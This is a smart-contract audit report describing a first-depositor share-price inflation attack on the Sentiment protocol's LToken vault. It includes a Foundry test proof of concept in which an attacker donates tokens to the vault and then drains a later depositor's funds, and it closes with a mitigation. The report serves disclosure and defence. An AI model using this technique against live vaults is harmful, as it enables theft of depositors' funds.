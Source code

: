 TomJ
# An early lender can manipulate LToken asset per share price and might be able to steal funds of future lenders

## Summary
A malicious early lender can manipulate LToken asset per share price which will cause DOS for future lenders.
Also malicious lender might be able to steal funds from future lenders when future lenders mistakenly withdraw their deposit tokens.

## Vulnerability Detail
- A malicious early lender `LToken.sol:deposit()` with 1 wei of underlying token as first depositer of the LToken and mint 1 share
- A malicious lender transfers 10K (or more) underlying tokens to LToken contract to inflate the share's price
- Now any future lenders have to deposit 10001 tokens or more to deposit to LToken which will cause DOS to LToken contract
- If future lenders deposit 10001 tokens but mistakenly withdraw 10000 or less token, lender's share will be 0 and will not be able to withdraw remaining tokens
- A malicious lender will withdraw their 10001 token and also future lender's remaining tokens

Below is PoC showing malicious lender causing DOS to LToken contract and stealing future lender's remaining tokens
Insert this test into LToken.t.sol
```
    function testAttack() public {
        //mint 10001 tokens for both lender(attacker) and owner(victim)
        erc20.mint(lender, 10001);
        erc20.mint(owner, 10001);

        cheats.prank(lender);
        erc20.approve(address(lErc20), type(uint).max);
        cheats.prank(owner);
        erc20.approve(address(lErc20), type(uint).max);

        //lender(attacker) deposit 1 token for 1 share and send 10000 tokens to the LToken account
        //Any future lenders now has to deposit 10001 or more tokens to be able to deposit
        cheats.startPrank(lender);
        lErc20.deposit(1, lender);
        erc20.transfer(address(lErc20), 10000);
        cheats.stopPrank();

        //owner(victim) deposit 10001 token for 1 share
        //But mistakenly withdraw only 1 token (remaining 10000 token are now lost)
        cheats.prank(owner);
        lErc20.deposit(10001, owner);
        cheats.prank(owner);
        lErc20.withdraw(1, owner, owner);

        //lender(attacker) withdraw their 10001 token and also owner's 10000 tokens
        cheats.startPrank(lender);
        lErc20.withdraw(20001, lender, lender);
        cheats.stopPrank();

        assertEq(erc20.balanceOf(owner), 1);
        assertEq(lErc20.balanceOf(owner), 0);

        assertEq(erc20.balanceOf(lender), 20001);
        assertEq(lErc20.balanceOf(owner), 0);
    }

```

## Impact
It will cause DOS for LToken and future lenders might end up losing their funds.

## Code Snippet
https://github.com/sherlock-audit/2022-08-sentiment-TomJ-BB/blob/82066aae2d33a0f9ecbd57fea0f11f5579613df8/protocol/src/tokens/utils/ERC4626.sol#L126-L130

## Tool used
Manual Review

## Recommendation
Consider requiring a minimal amount of share tokens to be minted for the first minter or implement logic such as Uniswap V2 does.
Reference: https://github.com/Uniswap/v2-core/blob/ee547b17853e71ed4e0101ccfd52e70d5acded58/contracts/UniswapV2Pair.sol#L119-L124